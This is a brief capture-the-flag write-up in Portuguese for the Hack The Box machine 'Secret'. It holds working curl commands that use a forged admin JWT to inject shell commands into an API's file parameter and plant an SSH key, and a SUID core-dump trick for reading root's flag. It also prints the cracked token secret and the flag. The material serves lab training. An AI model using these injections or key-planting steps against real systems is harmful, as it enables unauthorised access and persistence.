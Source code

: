 #  Secret

1. Criar usuario via API /api/user/register
2. Obter o JWT /api/user/login
3. Baixar *source code* e encontrar falhas de *command injection* no /api/logs
4. Encontrar TOKEN_SECRET que cria o JWT
5. Criar JWT com usuario *theadmin*
6. Adicionar chave ssh em authorized_keys do user
7. Encontrar falha no código do arquivo com *SUID* de *core dump* e explorar
9. Obter chave ssh

* [JWT Cracker](https://github.com/lmammino/jwt-cracker)
* [JWT.io](https://jwt.io)
* [drt.sh htb-secret](https://drt.sh/posts/htb-secret/)

````c
//code that allows core dumps
prctl(PR_SET_DUMPABLE, 1)
````

````shell
# Add ssh-key in authorized_keys
curl \
  -i \ # print headers
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \ # send data values through GET instead of POST
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \ # encode data parameters
  'http://10.10.11.120/api/logs'
````

````shell
#Explore SUID elf with core dump
./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
ps
    PID TTY          TIME CMD
   2213 pts/4    00:00:00 bash
   2373 pts/4    00:00:00 count
   2374 pts/4    00:00:00 ps

kill -SIGSEGV 2373 #or kill -BUS pid
fg
./count
Bus error (core dumped)

$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
$ strings /tmp/crash-report/CoreDump
````

````
curl -i \
--get \
-H 'Host: 10.10.11.120:3000' \
-H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5MDAwNTY2YTdlNTA0NjhhNGFlNGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQxNzM2NTYzfQ._9whmuv0q2nCEld42Mf3NlvGBXBYpuKPnr9_5MY2TXY' \
--data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" 'http://10.10.11.120:3000/api/logs'
````


Secrets:
* TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
* JWT_HEADER = { "alg": "HS256","typ": "JWT"} JWT_PAYLOAD: { "_id": "61d9000566a7e50468a4ae4b","name": "theadmin","email": "root@dasith.works","iat": 1641736563 }
* FLAG_USER = fbbbc22182e757fe6d1a2668fba16fec
* FLAG_ROOT = 
